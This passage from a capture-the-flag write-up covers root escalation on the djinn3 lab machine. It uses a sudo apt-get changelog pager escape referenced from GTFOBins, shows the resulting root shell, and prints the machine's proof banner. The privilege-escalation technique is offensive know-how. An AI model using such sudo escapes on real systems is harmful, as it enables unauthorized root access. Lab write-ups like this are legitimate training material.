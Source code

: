 # Privilege escalation (jason -> root)

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) reveals that we can take advantage of this to elevate our privileges:

~~~
jason@djinn3:/home/saint$ sudo apt-get changelog apt
Get:1 https://changelogs.ubuntu.com apt 1.6.12ubuntu0.1 Changelog [449 kB]
Fetched 449 kB in 1s (708 kB/s)
root@djinn3:/home/saint# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Let's get the root flag:

~~~
root@djinn3:/home/saint# cd /root
root@djinn3:/root# ls -la
total 40
drwx------  6 root root 4096 Jun  4 21:51 .
drwxr-xr-x 23 root root 4096 Jun  1 17:17 ..
lrwxrwxrwx  1 root root    9 May 17 17:33 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 May 10 02:57 .cache
drwx------  3 root root 4096 May 10 02:09 .gnupg
drwxr-xr-x  3 root root 4096 May 11 02:48 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root  695 Jun  4 18:01 proof.sh
-rw-r--r--  1 root root   66 Jun  1 20:45 .selected_editor
drwx------  2 root root 4096 Jun  1 20:08 .ssh
root@djinn3:/root# ./proof.sh 

    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Sun Sep 27 21:47:16 IST 2020
Whoami: root
__________________________________________________________________________

By @0xmzfr

Special thanks to @DCAU7 for his help on Privilege escalation process
And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://blog.mzfr.me/support/)
so I can continue to make these kind of challenges.
~~~
